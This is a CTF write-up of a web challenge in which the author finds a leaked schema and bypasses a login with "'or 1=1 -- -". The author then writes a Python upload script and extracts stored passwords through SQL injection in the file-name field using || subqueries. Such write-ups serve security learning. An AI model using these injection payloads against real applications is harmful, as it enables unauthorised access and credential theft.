

# Fantasy Gallery

Here is my writeup of the third web challenge of a private CTF. (Challenge by Mizu)

Task: A new website as been create to manage a galery. Link was wanted to use it in order to store is beautifull landscape pictures, but before He asked you to check the site security. Can you help him verifying it?

## First look



We can already see that the challenge is about files to upload.

There are 3 pages: welcome page, gallery and login. We can't access to gallery without being logged in so will try to log first.

Let's take a look to /robots.txt:

```
User-agent: *
Disallow: /init.db
```

Oh! There is an interesting path! Let's take a look:

```
CREATE TABLE IF NOT EXISTS users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT NOT NULL,
    password TEXT NOT NULL
);

CREATE TABLE IF NOT EXISTS gallery (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    userID TEXT NOT NULL,
    file_name TEXT NOT NULL,
    file_length TEXT NOT NULL,
    file_content TEXT NOT NULL
);

INSERT INTO users (username, password) VALUES ("*sensored*", "*sensored*");
```

There are 3 sql queries and we can guess we have to steal user credentials, maybe an sql injection ? 

## First exploitation

As we guess, we can login with an sql injection in login form

Username: ``'or 1=1 -- -``

Password: ``foobar``


We have an access to the gallery! Now we have to think about an exploit which can steal credentials, there was an sql injection in login form so we can guess there is also an sql injection on the submit.

We can imagine the query like that: ``INSERT INTO gallery(userID, file_name, file_length, file_content) VALUES('1', '<FILENAME>', '100', 'file_content')``

To check that we'll try to submit a file with a single quote and check if the server likes that.

I wrote a little code in Python to make the upload of files easier:

```py
import requests
from bs4 import BeautifulSoup as bs

file_name = input("Filename: ")

files = {
    'image': 
    (
        file_name, 
        open('image/test.png','rb'), 
        'image/png'
    )
}

cookies = {"session":"<SESSION_COOKIE>"}

r = requests.post("http://fantasygallery.ec2qualifications.esaip-cyber.com/gallery", files=files, cookies=cookies)


print(f"Query: INSERT INTO gallery(userID, file_name, file_length, file_content) VALUES('1', '{file_name}', '100', 'file_content')")
print()
print(f"Status: {r.status_code}")
print()

soup = bs(r.text, 'html.parser')

p = soup.find_all("p")[-1]
print(p.contents[0])
```

Let's try with a file named ``foo'``:
```
[Fantasy Gallery]~$ python3 fantasy_gallery.py 

Filename: foo'
Query: INSERT INTO gallery(userID, file_name, file_length, file_content) VALUES('1', 'foo'', '100', 'file_content')
Status: 500

The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

Yeah! We were right! There is an sql injection on file upload.

## Exploitation

Now we have to find a way to leak informations, let's try to know which SGBD is used first.

We'll try with sqlite, to display sqlite database version we have to do this request: ``select sqlite_version()``, let's try to inject it.

But how ? We can escape the quote but how can we get this ? We are going to us concatenation whith ``||``. Some databases are allowing it so let's cross the fingers.

Our filename will be ``version: '||(select sqlite_version())||'``.

The query will be: ``INSERT INTO gallery(userID, file_name, file_length, file_content) VALUES('1', 'version: '||(select sqlite_version())||'', '100', 'file_content')``, so there is not any error.

Let's try!
```
[Fantasy Gallery]~$ python3 fantasy_gallery.py

Filename: version: '||(select sqlite_version())||'

Query: INSERT INTO gallery(userID, file_name, file_length, file_content) VALUES('1', 'version: '||(select sqlite_version())||'', '100', 'file_content')
Status: 200

version: 3.34.1
```

Let's go we are close to succeed! We just have to make a request to users table and we'll get our flag!

Payload for the username: ``leaked: '||(select username from users)||'``

Payload for the password: ``leaked: '||(select password from users)||'``

```
[Fantasy Gallery]~$ python3 fantasy_gallery.py 

Filename: leaked: '||(select password from users)||'
Query: INSERT INTO gallery(userID, file_name, file_length, file_content) VALUES('1', 'leaked: '||(select password from users)||'', '100', 'file_content')
Status: 200

leaked: R2Lille{SQL1_4r3_3v3ryWh3R3}
```

Yeah! Here is our flag: ``R2Lille{SQL1_4r3_3v3ryWh3R3}``